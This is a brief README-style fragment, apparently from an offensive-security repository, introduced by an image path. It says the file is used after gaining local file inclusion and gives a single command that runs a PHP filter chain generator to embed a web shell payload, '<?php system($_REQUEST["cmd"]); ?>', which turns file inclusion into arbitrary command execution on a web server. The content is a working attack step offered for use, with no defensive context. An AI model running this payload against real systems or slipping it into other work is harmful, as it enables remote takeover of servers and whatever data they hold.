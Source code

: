 
### This file is used after we have LFI

Command : 
`python3 php_filter_chain_generator.py --chain '<?php system($_REQUEST["cmd"]); ?>' | xclip -selection clipboard`


